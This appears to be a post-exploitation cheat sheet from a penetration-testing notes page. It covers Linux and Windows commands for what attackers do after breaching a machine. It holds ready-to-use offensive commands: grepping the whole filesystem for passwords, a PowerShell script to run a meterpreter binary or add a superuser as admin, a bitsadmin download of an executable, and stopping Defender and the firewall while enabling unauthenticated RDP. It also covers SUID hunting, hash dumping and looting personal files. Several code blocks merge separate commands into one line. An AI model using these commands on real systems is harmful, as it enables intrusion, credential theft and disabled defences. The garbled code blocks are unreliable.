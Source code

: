 # **Post Exploitation**
Post-exploitation is a phase after an attacker has successfully breached a system. During this stage, the focus shifts from gaining initial access to maintaining control and further exploring the compromised environment. This involves activities such as privilege escalation, lateral movement within the network, data exfiltration, and establishing persistent access. Post-exploitation techniques aim to maximize the attacker's control over the compromised system and gather valuable information without raising suspicion.

```
grep -rnw '/' -ie 'pass' --color=alwaysgrep -rnw '/' -ie 'DB_PASS' --color=alwaysgrep -rnw '/' -ie 'DB_PASSWORD' --color=alwaysgrep -rnw '/' -ie 'DB_USER' --color=always
```

## **File Upload on linux systems via base64 encoding Converting a file to base64**

Once the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

```
cat fileWithBase64Content | base64 -d > finalBinary
```

You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

## **PSexec Shells of Remote Systems**

Eg: Get cmd.exe shell of remote system with user administrator and password

## **Powershell Sudo for Windows**

There maybe times when you know the creds to admin, but will have a low privileged shell. Unlike Linux, we cannot sudo on windows machines. So, I wrote a simple powershell script for that which can run a separate file as admin. You can run a batch file to add a new superuser or just execute a meterpreter binary as admin. The below command is to be run in a powershell window:

```
​$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'
```

If however you want to run the powershell from a cmd prompt, you can run store the above command in a xyz.ps1 file and run it in cmd as below:

```
powershell -ExecutionPolicy Bypass -File xyz.ps1​
```

Download files in Windows with
```
bitsadmin bitsadmin /transfer mydownloadjob /download /priority normal http:///xyz.exe C:\Users\\%USERNAME%\AppData\local\temp\xyz.exe
```

Disable firewall/defender and enable RDP for all Sometimes you will have the admin creds and may require an RDP Session to find out what exactly is going on in the backend for post exploitation. Below commands will help you disable firewall and enable RDP over insecure connections

```
sc stop WinDefendnetsh advfirewall show allprofilesnetsh advfirewall set allprofiles state offnetsh firewall set opmode disablereg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /freg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

Print files with the line number where the string is found grep -rnw '/' -ie 'password' --color=always

## **Find files with SUID permission**

```
find / -perm -4000 -type f 2>/dev/null
```

## **Find files with open permissions**

```
 find / -perm -777 -type f 2>/dev/null
```

## **Find files with SUID permission for current user**

```
find / perm /u=s -user `whoami` 2>/dev/nullfind / -user root -perm -4000 -print 2>/dev/null
```

## **Find files with writable permission for current user or current group**

```
find / perm /u=w -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -f -user `whoami` 2>/dev/nullfind / -perm /u+w -user `whoami` 2>/dev/nul
```

## **Find directories with writable permissions for current user or current group**

```
find / perm /u=w -type -d -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -d -user `whoami` 2>/dev/null
```

In order to move horizontally on the network we need to know as much about the machine as possible. We need to loot it. These are some things that must be done on every compromised machine.

### **Tcp dump**

Who else is connected to the machine?

### **Dump the hashes**

It is always good to have a list of all the hashes and crack them. Maybe someone is reusing the password.

### **To what is the machine connected?**

- netstat

- ipconfig

### **Email and personal files**

### **Logs**

​ ​
